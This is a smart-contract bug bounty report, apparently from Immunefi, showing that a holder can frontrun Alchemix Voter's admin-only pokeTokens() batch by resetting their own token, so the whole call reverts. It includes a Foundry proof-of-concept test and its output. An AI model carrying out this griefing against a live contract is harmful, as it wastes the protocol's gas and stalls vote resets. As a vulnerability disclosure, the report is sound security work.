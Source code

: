 
# Malicious users can cause `pokeTokens()` to revert

Submitted on Mon May 20 2024 16:41:29 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31514

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The voter admin can poke tokens to ensure that they accrue their FLUX and that their votes are reset. In the case where a token's lock has expired in the VE contract, the token is fully reset via `voter.reset()`. The admin passes in an array of tokens to reset. However, a griefer can cause the entire call to revert by simply frontrunning and resetting their own token.

This will:
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Vulnerability Details
After an epoch ends, the Voter admin can reset tokens by calling `pokeTokens()`.

```
    function pokeTokens(uint256[] memory _tokenIds) external {
        require(msg.sender == admin, "not admin");
        for (uint256 i = 0; i < _tokenIds.length; i++) {
            uint256 _tokenId = _tokenIds[i];
            // If the token has expired, reset it
            if (block.timestamp > IVotingEscrow(veALCX).lockEnd(_tokenId)) {
                reset(_tokenId);
            }
            poke(_tokenId);
        }
    }
```

As seen above, if a token's lock has ended, it also calls `reset()` for the token.

```
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }


        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

The `reset()` function can revert due to its modifier `onlyNewEpoch()`:

```
    modifier onlyNewEpoch(uint256 _tokenId) {
        // Ensure new epoch since last vote
        require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");
        _;
    }
```

Therefore, a griefer can vote with multiple tokens and simply frontrun any admin call to `pokeTokens()`. A single token that has already been reset will cause the entire function call to fail. On mainnet, this can be a costly revert due to numerous writes to storage. If the malicious token is near the end of the array, it could waste significant gas.

## Impact Details
- Cost the Alchemix admin wasted gas
- Delay the process to reset gauge votes

## Output from POC
```
[PASS] testGriefPokeTokens() (gas: 7570291)
Logs:
  Beef frontruns pokeTokens() call and resets last token in array (tokenId5).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId5 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId4).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId4 from array and try again.
  Beef frontruns pokeTokens() call and resets last token in array (tokenId3).
  Admin pokeTokens() reverts. Gas cost is high because last token caused revert.
  Remove tokenId3 from array and try again.
  Admin finally calls pokeTokens() successfully.
```

        
## Proof of concept
## Proof of Concept

```
function testGriefPokeTokens() public {
        // Kick off epoch cycle
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, 3 weeks, false);
        uint256 tokenId3 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId4 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);
        uint256 tokenId5 = createVeAlcx(beef, TOKEN_1, 3 weeks, false);

        uint256[] memory tokens = new uint256[](5);
        tokens[0] = tokenId1;
        tokens[1] = tokenId2;
        tokens[2] = tokenId3;
        tokens[3] = tokenId4;
        tokens[4] = tokenId5;

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        // Vote and record used weights
        voter.vote(tokenId1, pools, weights, 0);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(beef);
        voter.vote(tokenId3, pools, weights, 0);
        voter.vote(tokenId4, pools, weights, 0);
        voter.vote(tokenId5, pools, weights, 0);
        hevm.stopPrank();

        hevm.startPrank(admin);
        uint256 usedWeight1 = voter.usedWeights(tokenId2);
        uint256 totalWeight1 = voter.totalWeight();

        // Move forward 3 weeks to expire locks
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        hevm.warp(newEpoch());
        voter.distribute();

        // Move to when token1 expires
        hevm.warp(block.timestamp + 3 weeks);

        // Mock poking idle tokens to sync voting
        hevm.stopPrank();

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId5).");
        hevm.prank(beef);
        voter.reset(tokenId5);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens);

        console.log("Remove tokenId5 from array and try again.");
        uint256[] memory tokens2 = new uint256[](4);
        tokens2[0] = tokenId1;
        tokens2[1] = tokenId2;
        tokens2[2] = tokenId3;
        tokens2[3] = tokenId4;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId4).");
        hevm.prank(beef);
        voter.reset(tokenId4);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens2);

        console.log("Remove tokenId4 from array and try again.");
        uint256[] memory tokens3 = new uint256[](3);
        tokens3[0] = tokenId1;
        tokens3[1] = tokenId2;
        tokens3[2] = tokenId3;

        console.log("Beef frontruns pokeTokens() call and resets last token in array (tokenId3).");
        hevm.prank(beef);
        voter.reset(tokenId3);

        console.log("Admin pokeTokens() reverts. Gas cost is high because last token caused revert.");
        hevm.prank(voter.admin());
        hevm.expectRevert(abi.encodePacked("TOKEN_ALREADY_VOTED_THIS_EPOCH"));
        voter.pokeTokens(tokens3);

        console.log("Remove tokenId3 from array and try again.");
        uint256[] memory tokens4 = new uint256[](2);
        tokens4[0] = tokenId1;
        tokens4[1] = tokenId2;

        console.log("Admin finally calls pokeTokens() successfully.");
        hevm.prank(voter.admin());
        voter.pokeTokens(tokens4);
    }
```